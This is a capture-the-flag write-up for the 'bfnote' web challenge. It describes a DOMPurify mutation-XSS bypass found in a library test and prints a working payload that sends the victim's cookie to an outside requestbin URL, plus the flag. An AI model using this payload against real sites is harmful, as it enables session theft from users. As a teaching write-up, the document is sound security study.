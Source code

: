 # bfnote
Category: Web

Solves: 18, Score: 320  

> Share your best Brainf*ck code at [bfnote](https://bfnote.chal.ctf.westerns.tokyo/)

The website allows a user to upload some brainfuck code and executes it when visited. The backend code is not that important, but can be viewed using [https://bfnote.chal.ctf.westerns.tokyo/?source](https://bfnote.chal.ctf.westerns.tokyo/?source)

The user input is sanitized using `DOMPurify`. We did some DOM clobbering to overwrite `CONFIG`and set `unsafeRender`, but had no idea how to solve this challenge. The next morning we started to look at it again. One of our team members noticed that 10 minutes before cure53 [tweeted](https://twitter.com/cure53berlin/status/1307602849455640576) about a new release that fixed a mXSS variation. That was unfortunate, but since it was a competetion we just did a git diff and found the payload in a test.
```js
{
      "title": "Tests against nesting-based mXSS behavior 2/2",
      "payload": "<math><mtext><table><mglyph><style><math>CLICKME</math>",
      "expected": [
          ""
      ]
}
```

Based on this we created a simple payload to exfiltrate the cookie:
```html
<math><mtext><table><mglyph><style><math><img src="1" onerror="document.location.href=window.a.href+document.cookie"></math><a id=a href="//requestbin.net/r/y3usnuy3/"></a>
```

## Flag
```
TWCTF{reCAPTCHA_Oriented_Programming_with_XSS!}
```